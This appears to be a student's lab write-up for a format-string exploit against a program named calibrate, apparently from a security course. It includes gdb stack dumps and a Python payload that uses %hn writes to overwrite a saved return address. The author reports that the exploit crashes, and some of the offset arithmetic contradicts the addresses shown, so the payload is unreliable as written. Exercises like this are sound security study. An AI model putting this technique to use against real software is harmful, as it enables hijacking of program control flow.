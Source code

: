 # 01 - Remus Writeup

## Main Idea

The code is vulnerable because of the printf function. We can define arguments to write what we want to memory.
Before that, we need to know the steps of printf. In that schema, arg0 is the address of the printf string. Arg1 and arg2 is the arguments of printf.
We can self-define the arguments that we want. At first, we neet to place the string address above the rip of printf. Then the printf function will use the argument above RIP of printf according to the format of string.

```plaintext
...
[  ][  ][  ][  ] <-- arg2
[  ][  ][  ][  ] <-- arg1
[  ][  ][  ][  ] <-- arg0 (&buf)
[  ][  ][  ][  ] <-- RIP of printf
[  ][  ][  ][  ] <-- SFP of printf
...
```

## Magic Numbers

The address of buffer is `0xffffd5d0`, the RIP is `0xffffd5bc`, so the location of RIP is 20 bytes away from the start of the buffer (0xffffd6ac - 0xffffd698).

``` C++
(gdb) x/16x buf
0xffffd5d0:     0x41414141      0xffffd5bc      0x41414141      0xffffd5be      
0xffffd5e0:     0x63256325      0x63256325      0x63256325      0x63256325      
0xffffd5f0:     0x63256325      0x63256325      0x32353525      0x25753637      
0xffffd600:     0x31256e68      0x33343230      0x6e682575      0x00000a00
(gdb) i f
Stack level 0, frame at 0xffffd5c0:
 eip = 0x8049214 in calibrate (calibrate.c:9); saved eip = 0x804928f
 called by frame at 0xffffd670
 source language c.
 Arglist at 0xffffd5b8, args:
    buf=0xffffd5d0 "AAAA\274\325\377\377AAAA\276\325\377\377%c%c%c%c%c%c%c%c%c%c%c%c%55276u%hn%10243u%hn"
 Locals at 0xffffd5b8, Previous frame's sp is 0xffffd5c0
 Saved registers:
  ebp at 0xffffd5b8, eip at 0xffffd5bc
```

## Exploit Structure

First, we will place the argument we need to buffer, which is significant to what we want to write in memory.
Second, we need printf 12 characters (address of buf - address of argument1) to move the argument to the buffer.
Third, we need to modify the "byte" we have printf to overwrite the address of shellcode into RIP of calibrate by %hn and %u.

## Exploit GDB Output

before attack

```C++
(gdb) x/64x 0xffffd5b0
0xffffd5b0:     0x00000002      0x00000000      0xffffd658      0x0804928f
0xffffd5c0:     0xffffd5d0      0x08048034      0x00000020      0x00000008      
0xffffd5d0:     0x41414141      0xffffd5bc      0x41414141      0xffffd5be      
0xffffd5e0:     0x63256325      0x63256325      0x63256325      0x63256325      
0xffffd5f0:     0x63256325      0x63256325      0x32353525      0x25753637      
0xffffd600:     0x31256e68      0x33343230      0x6e682575      0x0000000a      
0xffffd610:     0x00000000      0x00000001      0x00000000      0xffffd7cb      
0xffffd620:     0x00000002      0x00000000      0x00000000      0x00000000      
0xffffd630:     0x00000000      0xffffdfe0      0xf7ffc540      0xf7ffc000      
0xffffd640:     0x00000000      0x00000000      0x00000000      0x00000000      
0xffffd650:     0x00000000      0xffffd670      0xffffd6f0      0x08049466      
0xffffd660:     0x00000002      0x0804926c      0x0804ffe8      0x08049466      
0xffffd670:     0x00000002      0xffffd6e4      0xffffd6f0      0x0804e04e      
0xffffd680:     0x00000000      0x00000000      0x08049444      0x0804ffe8      
0xffffd690:     0x00000000      0x00000000      0x00000000      0x08049097      
0xffffd6a0:     0x0804926c      0x00000002      0xffffd6e4      0x08049000 
```

after attack

```  C++
Program received signal SIGSEGV, Segmentation fault.
0x0804ad5f in printf_core (f=f@entry=0x80500c0 <__stdout_FILE>, fmt=fmt@entry=0xffffd5d0 "AAAA\274\325\377\377AAAA\276\325\377\377%c%c%c%c%c%c%c%c%c%c%c%c%55276u%hn%10243u%hn\n", ap=ap@entry=0xffffd45c, nl_arg=<optimized out>, nl_type=<optimized out>) at src/stdio/vfprintf.c:548
548     src/stdio/vfprintf.c: No such file or directory.
```

Pathetically, I do not know where the problem is.
Below is my python code.

``` python
payload = ''
payload += "A" * 4   #(consumed by %__u)
payload += '\xbc\xd5\xff\xff'    #  lower half word address of RIP that we want to overwrite
payload += 'A' * 4   #(consumed by %__u)
payload += '\xbe\xd5\xff\xff'    #  higher half word address of RIP that we want to overwrite

payload += "%c" * 12  # move the pointer of printf to buffer

cur =  12 
FIRST_HALF = 65535   # The two most significant bytes of RIP
SECOND_HALF = 55288  # The two least significant bytes of RIP

payload += '%' + str(SECOND_HALF - cur) + 'u'
payload += '%hn'

payload += '%' + str(FIRST_HALF - SECOND_HALF) + 'u'
payload += '%hn'
payload += '\0'
print(payload + '\n')
```
